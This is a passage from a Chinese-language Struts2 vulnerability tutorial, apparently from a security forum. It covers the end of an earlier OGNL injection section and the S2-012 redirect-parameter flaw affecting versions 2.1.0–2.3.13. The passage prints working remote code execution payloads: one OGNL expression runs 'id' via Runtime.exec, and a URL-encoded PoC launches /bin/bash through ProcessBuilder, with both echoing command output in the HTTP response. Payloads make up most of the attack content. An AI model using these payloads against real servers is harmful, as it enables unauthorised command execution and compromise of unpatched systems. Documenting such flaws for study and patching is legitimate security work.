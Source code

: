 ##### Poc-4

```php
z[%28name%29%28%27meh%27%29]&amp;age=12313&amp;name=(#context[&quot;xwork.MethodAccessor.denyMethodExecution&quot;]=false,#_memberAccess[&quot;allowStaticMethodAccess&quot;]=true,#a=@java.lang.Runtime@getRuntime().exec('id').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#s=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#s.println(#d),#s.close())(meh)
```

![image-20210709091552051](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-de5e7d6097dd54a0a4c65635c24a614e0f9a20f4.png)

![image-20210709094726752](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-fc200f9caf47ca17cbc00bd18df421d1ff17a889.png)

### 4.6 S2-012远程代码执行漏洞

#### 漏洞原理

##### 如果在配置 Action 中 Result 时使用了重定向类型，并且还使用 ${param\_name} 作为重定向变量

```php
x ml
&lt;package name=&quot;S2-012&quot; extends=&quot;struts-default&quot;&gt;
    &lt;action name=&quot;user&quot; class=&quot;com.demo.action.UserAction&quot;&gt;
        &lt;result name=&quot;redirect&quot; type=&quot;redirect&quot;&gt;/index.jsp?name=${name}&lt;/result&gt;
        &lt;result name=&quot;input&quot;&gt;/index.jsp&lt;/result&gt;
        &lt;result name=&quot;success&quot;&gt;/index.jsp&lt;/result&gt;
    &lt;/action&gt;
&lt;/package&gt;
```

##### 这里 UserAction 中定义有一个 name 变量，当触发 redirect 类型返回时，Struts2 获取使用 ${name} 获取其值，在这个过程中会对 name 参数的值执行 OGNL 表达式解析，从而可以插入任意 OGNL 表达式导致命令执行。

#### 影响版本

```php
2.1.0 - 2.3.13
```

#### 启动漏洞

![image-20210709100841677](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-69192bb717ecade4e07c88749a8deff5780c5160.png)

![image-20210709100857766](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-7cc49f60c4652d7195e787de8538f235bc6dd77e.png)

#### poc-1

```php
%25%7B%23a%3D(new java.lang.ProcessBuilder(new java.lang.String%5B%5D%7B%22%2Fbin%2Fbash%22%2C%22-c%22%2C %22ls%22%7D)).redirectErrorStream(true).start()%2C%23b%3D%23a.getInputStream()%2C%23c%3Dnew java.io.InputStreamReader(%23b)%2C%23d%3Dnew java.io.BufferedReader(%23c)%2C%23e%3Dnew char%5B50000%5D%2C%23d.read(%23e)%2C%23f%3D%23context.get(%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22)%2C%23f.getWriter().println(new java.lang.String(%23e))%2C%23f.getWriter().flush()%2C%23f.getWriter().close()%7D
```
